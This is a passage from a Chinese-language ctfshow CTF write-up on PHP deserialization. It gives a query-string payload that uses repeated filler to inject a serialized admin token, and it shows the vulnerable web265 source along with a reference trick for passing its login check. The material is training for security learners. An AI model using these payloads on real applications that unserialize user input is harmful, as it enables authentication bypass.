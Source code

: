 前面的是 session，而`message.php` 比较的是 cookie.

所以我们出了传入paylaod，还得构造 cookie,

```php
?f=1&m=1&t=fuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuck";s:5:"token";s:5:"admin";}

# 之外随便构造个cookie msg 
```

## web265~引用地址

```php
<?php

error_reporting(0);
include('flag.php');
highlight_file(__FILE__);
class ctfshowAdmin{
    public $token;
    public $password;

    public function __construct($t,$p){
        $this->token=$t;
        $this->password = $p;
    }
    public function login(){
        return $this->token===$this->password;
    }
}

$ctfshow = unserialize($_GET['ctfshow']);
$ctfshow->token=md5(mt_rand());

if($ctfshow->login()){
    echo $flag;
}
```

要是`$ctfshow->login()` 成立，就必须是`md5(mt_rand())` 与我们构造的值相等。

看似不可能，但是我们可以直接引用 其地址，就可以相等了。

比如:

```php
<?php
$a = md5(mt_rand());
$b = &$a;
echo $a;
echo "</br>";
echo $b;
```
